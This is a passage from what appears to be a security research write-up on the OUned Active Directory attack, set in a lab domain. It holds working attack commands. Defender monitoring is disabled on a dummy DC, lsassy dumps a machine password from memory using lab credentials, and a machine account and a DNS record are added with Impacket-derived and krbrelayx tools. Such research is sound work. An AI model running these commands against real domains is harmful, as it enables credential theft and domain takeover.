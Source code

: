 _# On dummy DC_

```shell
PS C:\> ipconfig
[...]
   IPv4 Address. . . . . . . . . . . : 192.168.125.245
[...]
PS C:\> ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).name
ouned.corp.com
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true
PS C:\> Reset-ComputerMachinePassword
```

It is now possible to extract the password for the DC from memory. In this case, we will do it remotely using [lsassy](https://github.com/Hackndo/lsassy) from the attacker machine.

_# On attacker machine_

```shell
$ lsassy -d 'ouned.corp.com' -u 'qroland' -p 'Password1!' 192.168.125.245
[...]
ouned.corp.com\WIN-TTEBC5VH747$  [PWD] 0V6rOKK2MFP1% f%nP7:XGWdH(_2Wqh,=`_,d)%^0dsjD%xEga`%w!GhUMC$fa>W\6nRwXnGZuLM?86a+0idQ^Y;TRqGV?]>Lma.+&C,SA*<.Uo<mia7 F=p
[...]
```

With this information, we can now create the **OUNED$** computer account on the target domain. In the [OUned](https://github.com/synacktiv/OUned) repository, you will find the **addcomputer_****LDAP_spn****.py** script, which is nothing more than a slightly modified version of the original **addcomputer.py** from Impacket to create a machine account with an additional LDAP SPN. As required, we will also assign the dummy DC password to the newly created **OUNED$** account.

_# On attacker machine_

```shell
$ export PASS='0V6rOKK2MFP1% f%nP7:XGWdH(_2Wqh,=`_,d)%^0dsjD%xEga`%w!GhUMC$fa>W\6nRwXnGZuLM?86a+0idQ^Y;TRqGV?]>Lma.+&C,SA*<.Uo<mia7 F=p'
$ python3 addcomputer_LDAP_spn.py -computer-name OUNED -computer-pass $PASS 'corp.com/naugustine:Password1'
[*] Successfully added machine account OUNED$ with password 0V6rOKK2MFP1% f%nP7:XGWdH(_2Wqh,=`_,d)%^0dsjD%xEga`%w!GhUMC$fa>W\6nRwXnGZuLM?86a+0idQ^Y;TRqGV?]>Lma.+&C,SA*<.Uo<mia7 F=p.
```

Finally, we will create the **ouned.corp.com** DNS record. This can be performed through various means; we will do it through the **dnstool.py** script from the [krbrelayx](https://github.com/dirkjanm/krbrelayx) suite.

_# On attacker machine_

```shell
$ python3 dnstool.py -u "CORP.COM"\\"naugustine" -p 'Password1' -r 'ouned' -a add -d "192.168.123.16" "192.168.123.10"
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

